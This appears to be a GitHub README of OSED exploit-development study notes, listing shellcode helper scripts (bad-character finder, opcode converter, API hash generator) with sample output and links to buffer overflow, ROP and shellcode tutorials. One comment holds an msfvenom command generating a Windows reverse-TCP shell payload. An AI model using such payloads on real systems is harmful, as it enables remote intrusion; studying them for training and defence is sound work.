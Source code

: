 # OSED_Notes

Here I share tools, scripts and resources that were important during my OSED preparation.

## badchars_find.py
A python script that finds badchars inside generated shellcodes by dividing the shellcode into blocks of \x70 bytes of length


```bash
# msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.1 lport=443 -f python EXITFUNC=thread -v buf

username@host:~$ python3 badchars_find.py
Badchar found: 0x3
Badchar: 0
==============================
Badchar found: 0x4
Badchar: 0
==============================
Badchar found: 0x5
Badchar: 0
==============================
Badchar found: 0x17
Badchar: 40
==============================
...
==============================
Badchar found: 0x55
Badchar: 128
==============================
Badchar found: 0x60
Badchar: 0
==============================
[!] Third block: 22 badchars! [!]
==============================
```

## to_hex.py
A python script that generates the opcodes of the given Assembly instructions

```bash
username@host:~$ python3 to_hex.py
\xcc\x31\xc9\x41\xff\x31\xc3
```

## hash_generator.py
A python script that generates the API Hash used to get the base address of a given function

```bash
username@host:~$ python3 hash_generator.py
Usage: hash_generator.py WINAPI

username@host:~$ python3 hash_generator.py GetProcAddress
GetProcAddress hash: 0x7c0dfcaa
```
# Study Resources

## YouTube
Most Wanted Duck [PT-BR] [Shellcode 0x101](https://www.youtube.com/playlist?list=PL7A__cxMT7zLTwIcdt3ZrnQIGUpIBrTW6) and [Buffer Overflow](https://www.youtube.com/playlist?list=PL7A__cxMT7zIViV15wW0t0kUPrd0QEHLx)

Cyber V1s3r1on's [OSED preparation](https://www.youtube.com/playlist?list=PLqyU-D70UmVOq2GScq6O1HIQNMh5fEBRZ)

Guided Hacking [Binary Exploit Development Course](https://www.youtube.com/playlist?list=PLt9cUwGw6CYEmxx_3z1d-uT9zdEd58yOq)

## GitHub
epi052's [osed-scripts](https://github.com/epi052/osed-scripts)

## Read
[Customizing your WinDbg workspace](https://www.zachburlingame.com/2011/12/customizing-your-windbg-workspace-and-color-scheme/)

Guided Hacking - [Exploit Development](https://guidedhacking.com/threads/exploit-development-vulnserver-simple-buffer-overflow.19989/) and [How to bypass DEP Stack Protection](https://guidedhacking.com/threads/binary-exploit-development-4-how-to-bypass-dep-stack-protection.20109/)

[Corelan - Chaining DEP with ROP](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/#buildingrop)

Connor McGarr's [Rop post](https://connormcgarr.github.io/ROP/)

areyou1or0's [ROP Gadgets: VirtualProtect()](https://areyou1or0.it/index.php/2022/01/24/rop-gadgets-virtualprotect/)

Ionut Popescu's [INTRODUCTION TO WINDOWS SHELLCODE DEVELOPMENT](https://securitycafe.ro/2015/10/30/introduction-to-windows-shellcode-development-part1/)
